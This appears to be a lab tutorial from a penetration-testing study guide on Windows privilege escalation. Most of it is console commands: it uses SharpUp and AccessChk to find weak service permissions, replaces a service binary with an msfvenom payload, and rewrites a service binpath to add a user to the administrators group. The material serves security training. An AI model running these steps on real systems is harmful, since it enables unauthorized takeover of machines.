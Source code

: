 Permissions on Windows systems are complicated and challenging to get right.

### Permissive File System ACLs

We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs:
```console
PS C:\zeropio> .\SharpUp.exe audit
```

The tool identifies the **PC Security Management Service** (for example), which executes the **SecurityService.exe** binary when started. Using `icacls` we can verify:
```console
PS C:\zeropio> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

We can replace it now with a msfvenom payload:
```console
C:\zeropio> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\zeropio> sc start SecurityService
```

### Weak Service Permissions 

We can see a misconfigured program after running SharpUp. We can verify it with [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk):
```console
C:\zeropio> accesschk.exe /accepteula -quvcw WindscribeService
```

Check the admin group to confirm that our user is not in them:
```console
C:\zeropio> net localgroup administrators
```

We can use our permissions to change the binary path maliciously:
```console
C:\zeropio> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

Next, we must stop the service, so the new binpath command will run the next time it is started:
```console
C:\zeropio> sc stop WindscribeService
```

Since we have full control over the service, we can start it again, and the command we placed in the binpath will run even though an error message is returned:
```console
C:\zeropio> sc start WindscribeService
```

Finally, check to confirm that our user was added to the local administrators group:
```console
C:\zeropio> net localgroup administrators
```

We can clean up after ourselves and ensure that the service is working correctly by stopping it and resetting the binary path back to the original service executable. Reverted the binary path:
```console
C:\zeropio> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
```
